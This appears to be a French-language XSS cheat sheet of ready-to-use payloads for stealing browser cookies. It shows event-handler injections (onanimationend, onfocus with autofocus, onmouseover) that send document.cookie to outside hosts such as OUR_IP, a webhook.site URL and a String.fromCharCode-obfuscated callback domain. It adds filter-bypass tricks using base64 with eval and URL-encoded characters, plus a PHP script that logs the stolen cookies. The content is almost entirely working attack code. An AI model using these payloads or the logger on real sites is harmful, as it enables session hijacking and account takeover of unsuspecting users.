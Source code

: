 animation video

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="document.location = 'http://OUR_IP:8000/log.php?c=' + document.cookie;"></video>
```

### Bypass de caractères spéciaux blacklistés

#### Base64 avec commentaires pour échapper certains caractères

```js
 <button onfocus=eval/**/(atob(/**/"payload_encodé_en_base64")) autofocus>
```

#### Array sans aucun espace et signe = et + URL encoded

```js
<button/autofocus/onfocus%3do%3d{a:window,b:'lo',c:'cation',e:document,d:'http://webhook.site/b8ab9558-cc83-4e1e-86e2-1f3ba47cc26f?'};o.a[o.b%2bo.c]%3do.d%2bo.e.cookie>
```
#### StringFromCharcode

Document.location onfocus autofocus (pas d'interaction utilisateur)

```js
<xss onfocus=document[String.fromCharCode(108,111,99,97,116,105,111,110)]=[String.fromCharCode(104,116,116,112,58,47,47,115,117,100,109,109,121,117,121,117,102,106,112,112,108,108,107,111,111,109,108,98,108,114,118,97,111,106,104,103,116,105,112,98,46,111,97,115,116,46,102,117,110,63,99,111,111,107,105,101,61)].concat(document[String.fromCharCode(99,111,111,107,105,101)]) autofocus tabindex=1>
```

Document.location onmouseover

```js
<a onmouseover=document[String.fromCharCode(108,111,99,97,116,105,111,110)]=[String.fromCharCode(104,116,116,112,58,47,47,115,117,100,109,109,121,117,121,117,102,106,112,112,108,108,107,111,111,109,108,98,108,114,118,97,111,106,104,103,116,105,112,98,46,111,97,115,116,46,102,117,110,63,99,111,111,107,105,101,61)].concat(document[String.fromCharCode(99,111,111,107,105,101)])>xdxd</a>
```

#### JSFUCKS

https://jsfuck.com/

#### Récupérer propriété du document avec textContent

```js
<button onfocus=location=textContent+cookie autofocus> http://xxx?cookie= </button>
```

## Cookie Stealer 1

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://target.com/");
exit;
?>
```
